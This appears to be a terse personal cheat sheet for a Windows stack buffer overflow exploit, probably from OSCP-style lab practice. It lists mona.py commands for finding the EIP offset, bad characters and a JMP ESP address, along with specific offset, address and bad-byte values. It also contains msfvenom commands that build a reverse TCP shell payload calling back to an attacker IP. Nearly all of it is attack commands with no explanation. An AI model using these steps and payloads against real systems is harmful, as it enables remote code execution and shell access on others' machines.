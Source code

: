 ```
!mona config -set workingfolder c:\mona\%p
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 1500
!mona findmsp -distance 1500
EIP: 1034
#Update EIP to all scripts

!mona bytearray -b "\x00"

1. Send data with NULL
2. Take ESP OUT and put into COMPARE. 

## Don't forget extending the windows to right on BadChars. 
# !mona compare -f C:\mona\oscp\bytearray.bin -a 01A0FA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 000000

#python bytearray.py
# Send updated Removed Bad Char buffer to target
!mona bytearray -b "\x00\x08\x2c\xad"

# Update Offset on Python
"\\x00\\x16\\x2f\\xf4\\xfd"

# Verify with new ESP on Immunity Debugger

!mona jmp -r esp -cpb "\x00\x08\x2c\xad"
!mona bytearray -b "\x00"

JMP ESP: "\xaf\x11\x50\x62"

msfvenom -p windows/shell_reverse_tcp LHOST=10.6.20.231 LPORT=4444 EXITFUNC=thread -b "\x00\x08\x2c\xad" -f py

!mona config -set workingfolder c:\mona\%p

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
!mona findmsp -distance 600!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
!mona jmp -r esp -cpb "\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
!mona config -set workingfolder c:\mona\%p
```
![image](https://user-images.githubusercontent.com/9059079/119589298-85138c80-bda0-11eb-825d-862e4f241a10.png)

![image](https://user-images.githubusercontent.com/9059079/119571250-1d991500-bd7f-11eb-9cb0-ca9bd73dc2f7.png)
